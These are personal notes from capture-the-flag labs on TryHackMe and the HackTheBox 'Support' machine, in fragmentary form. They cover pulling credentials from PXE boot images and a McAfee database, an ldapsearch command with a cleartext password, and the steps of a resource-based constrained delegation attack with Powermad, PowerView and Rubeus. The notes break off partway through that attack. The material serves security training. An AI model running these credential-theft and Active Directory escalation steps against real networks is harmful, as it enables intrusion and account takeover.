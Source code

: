 |looking for the bootstrap.ini file, where these types of credentials are often stored|
use powerpxe to recover the credentials:
Get-FindCredentials -WimFile pxeboot.wim
 
What Microsoft tool is used to create and host PXE Boot images in organisations?
Microsoft Deployment Toolkit 

Configuration file enumeration
•	Web application config files
•	Service configuration files
•	Registry keys
•	Centrally deployed applications

Several enumeration scripts, such as Seatbelt, can be used to automate this process.

Pass file: ma.db
Cd C:\ProgramData\McAfee\Agent\DB

Out machine 
scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .

jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==
svcAV
za.tryhackme.com
path: epo$\
THMDC



=================================================================================
support


Nmap
Smbclient / download |userinfo.exe|
Sudo apt install mono-complete == Install mono to open .exe in kali
We see ldap query >> Wireshark to see what is this >> find the ldap password

ldapsearch -D support\\ldap -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb' | grep info == there is the support account password

cut -d "," -f 2 demo.cs

……………………………………………………………………………………
Upload the:
powerview.ps1 >> Import-Module .\”
powermad.ps1 >> “
Rubeus.exe >>  .\ Rubeus.exe ……

Powremad:
New-MachineAccount -MachineAccount newm -Password $(ConvertTo-SecureString 'naqib123!' -AsPlainText -Force)

Powerview (retrieve the security identifier (SID) of the newly created computer account)
$ComputerSid = Get-DomainComputer newm -Properties objectsid | Select -Expand objectsid

We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE:
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
